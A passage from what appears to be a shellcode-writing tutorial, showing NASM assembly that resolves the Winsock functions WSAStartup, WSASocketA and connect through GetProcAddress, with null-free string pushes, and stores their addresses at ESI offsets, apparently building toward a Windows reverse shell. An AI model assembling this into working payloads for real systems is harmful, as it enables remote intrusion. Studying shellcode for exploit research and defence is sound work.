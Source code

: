 ```nasm
; use GetProcAddress to get location of WSAStartup function
push 0x61617075
sub word [esp + 0x2], 0x6161
push 0x74726174
push 0x53415357
push esp
push eax
call edi
```

Same type of operation as before, but just make sure to note that `push eax` is used here to reference the location of `ws2_32.dll` instead of `kernel32.dll` like we're used to. 

Here's where things get awesome. Because the functions we want to use require using the registers we need to keep the location of the DLLs safe, we have to get creative here. We're going to get the address of all the functions we need first, and then call them later. We're going to make ESI effectively a stack pointer, and then keep saving addresses in 4 byte chunks one on top of the other on the stack. This way, all of the function addresses will be safe on the stack and not overwritten by our functions. 

Right now, `WSAStartup` is stored in EAX, so let's put that into ESI and make ESI the location of where ESP is.

```nasm
push eax
lea esi, [esp]       ; esi will store WSAStartup location, and we'll calculate offsets from here
```

So we pushed EAX onto the stack, therefore ESP was pointing at EAX. Then we put the address of ESP into ESI. So now we can refer to ESI and its offsets we create later to make the function calls. 

So for example, let's say the `WSAStartup` startup address is at `0x00000000`. We can store the next function at the address `0x00000004` and refer to it as `lea [esi + 0x4]`. Remember that since we made the `lea esi, [esp]` operation, ESI is just a location on the stack now. 

Next, we'll do the exact same thing for `WSASocket`
```nasm
; use GetProcAddress to get location of WSASocketA
push 0x61614174
sub word [esp + 0x2], 0x6161
push 0x656b636f
push 0x53415357
push esp
push ecx
call edi

mov [esi + 0x4], eax ; esi at offset 0x4 will now hold the address of WSASocketA
```

The `WSASocket` function address is now stored at ESI + 0x4 bytes. 

Next, find the location of the `connect` function. 
```nasm
; use GetProcAddress to get the location of connect
push 0x61746365
sub dword [esp + 0x3], 0x61
push 0x6e6e6f63
push esp
push ecx
call edi

mov [esi + 0x8], eax ; esi at offset 0x8 will now hold the address of connect
```
